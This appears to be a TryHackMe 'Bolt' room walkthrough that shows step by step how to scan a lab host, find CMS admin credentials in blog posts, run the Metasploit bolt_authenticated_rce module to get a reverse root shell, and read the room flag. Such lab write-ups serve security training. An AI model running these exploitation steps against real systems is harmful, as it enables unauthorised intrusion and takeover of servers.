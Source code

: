# TryHackMe Walkthrough 
Room link: https://tryhackme.com/r/room/bolt

## Nmap:
```
nmap -sCV -v 10.10.189.54 
```
<pre>
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-22 11:31 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating NSE at 11:31
Completed NSE at 11:31, 0.00s elapsed
Initiating Ping Scan at 11:31
Scanning 10.10.189.54 [4 ports]
Completed Ping Scan at 11:31, 0.25s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:31
Completed Parallel DNS resolution of 1 host. at 11:31, 0.05s elapsed
Initiating SYN Stealth Scan at 11:31
Scanning 10.10.189.54 [1000 ports]
Discovered open port 80/tcp on 10.10.189.54
Discovered open port 22/tcp on 10.10.189.54
Discovered open port 8000/tcp on 10.10.189.54
Completed SYN Stealth Scan at 11:31, 5.32s elapsed (1000 total ports)
Initiating Service scan at 11:31
Scanning 3 services on 10.10.189.54
Completed Service scan at 11:32, 29.96s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.189.54.
Initiating NSE at 11:32
Completed NSE at 11:32, 7.69s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 11.14s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Nmap scan report for 10.10.189.54
Host is up (2.6s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:85:ec:54:f2:01:b1:94:40:de:42:e8:21:97:20:80 (RSA)
|   256 77:c7:c1:ae:31:41:21:e4:93:0e:9a:dd:0b:29:e1:ff (ECDSA)
|_  256 07:05:43:46:9d:b2:3e:f0:4d:69:67:e4:91:d3:d3:7f (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
8000/tcp open  http    (PHP 7.2.32-1)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-generator: Bolt
|_http-title: Bolt | A hero is unleashed
  
NSE: Script Post-scanning.
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Initiating NSE at 11:32
Completed NSE at 11:32, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
</pre>

## Opening IP in Browser:
### Did not find anything here 
![Screenshot 2024-07-22 210254](https://github.com/user-attachments/assets/257980f2-8be0-4cc6-9350-5099dadccb2c)


### Navigated to the port 8000, This has got some interesting pages
![Screenshot 2024-07-22 215524](https://github.com/user-attachments/assets/909c645b-e3ac-46b1-81ff-52a8e371f220)


### One of the blog reveals to us the username of the admin of the website
![Screenshot from 2024-07-22 11-41-03](https://github.com/user-attachments/assets/04d88e03-e942-4850-bf04-a7ab490d8345)

### And other blog reveals us the password in clear text 
![Screenshot from 2024-07-22 12-29-48](https://github.com/user-attachments/assets/e0753192-9bda-4f46-9a3d-51ab03f2ff99)



## SSH Login:
#### The username and passowrd are not for ssh 
```
ssh bolt@10.10.189.54
```
<pre>
The authenticity of host '10.10.189.54 (10.10.189.54)' can't be established.
ED25519 key fingerprint is SHA256:e1qiq3Gpe8kdF5iw8bxPh9T4IgoUlUqClso+H6525EE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.189.54' (ED25519) to the list of known hosts.
bolt@10.10.189.54's password: 
Permission denied, please try again.
bolt@10.10.189.54's password: 
</pre>

### Went to user manual page of Bolt CMS and found the login page details
![Screenshot 2024-07-22 220916](https://github.com/user-attachments/assets/8038d255-2403-4ed5-a8cb-4168f2383eaa)
### Logged in with the credentials and found the CMS version.

### Searched for the exploit in Exploit DB
![Screenshot 2024-07-22 221151](https://github.com/user-attachments/assets/e21ff7c1-cb55-4069-a53c-b8018886c8e0)

## Started the msfconsole:
#### Searched for the exploit in metasploit and selected the exploit and saw the options to set 
![Screenshot from 2024-07-22 12-14-40](https://github.com/user-attachments/assets/e1aab280-997b-4865-8cca-2f8a3e53eb16)

### Set the options LHOST, RHOSTS, USERNAME, PASSWORD and ran the exploit
<pre>
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set LHOST tun0
LHOST => 10.17.9.110
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set RHOSTS 10.10.189.54
RHOSTS => 10.10.189.54
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set USERNAME bolt
USERNAME => bolt
msf6 exploit(unix/webapp/bolt_authenticated_rce) > set PASSWORD boltadmin123 
PASSWORD => boltadmin123
</pre>
#### RHOST is the ip of the machine
#### LHOST is the ip of our machine’s vpn ( note: we don’t get reverse shell if we use our own ip )
#### USERNAME and PASSWORD is that we found in previous enumeration
#### TARGETURI is where you want to put our website url. here its bolt website in port 8000

## Running the exploit:
```
msf6 exploit(unix/webapp/bolt_authenticated_rce) > run
```
<pre>
[*] Started reverse TCP handler on 10.17.9.110:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully changed the /bolt/profile username to PHP $_GET variable "sdkl".
[*] Found 3 potential token(s) for creating .php files.
[+] Deleted file mnlzukxy.php.
[+] Deleted file rdtkllozkg.php.
[+] Used token b54399f7cfb24501eac04a71d2 to create bmphghhjytu.php.
[*] Attempting to execute the payload via "/files/bmphghhjytu.php?sdkl=`payload`"
[!] No response, may have executed a blocking payload!
[*] Command shell session 2 opened (10.17.9.110:4444 -> 10.10.189.54:53504) at 2024-07-22 12:15:03 -0400
[+] Deleted file bmphghhjytu.php.
[+] Reverted user profile back to original state.

whoami
root

cat flag.txt
THM{wh0_d035nt_l0ve5_b0l7_r1gh7?}
</pre>



